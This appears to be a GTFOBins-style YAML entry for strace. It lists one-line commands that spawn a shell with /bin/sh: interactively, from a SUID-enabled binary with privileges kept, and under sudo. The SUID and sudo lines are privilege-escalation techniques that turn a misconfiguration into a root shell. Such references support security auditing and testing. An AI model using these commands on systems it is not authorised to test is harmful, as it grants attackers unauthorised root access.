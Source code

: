 ```yaml
---
functions:
  execute-interactive:
  - code: strace -o /dev/null /bin/sh
  suid-enabled:
  - code: "./strace -o /dev/null /bin/sh -p"
  sudo-enabled:
  - code: sudo strace -o /dev/null /bin/sh
---
```

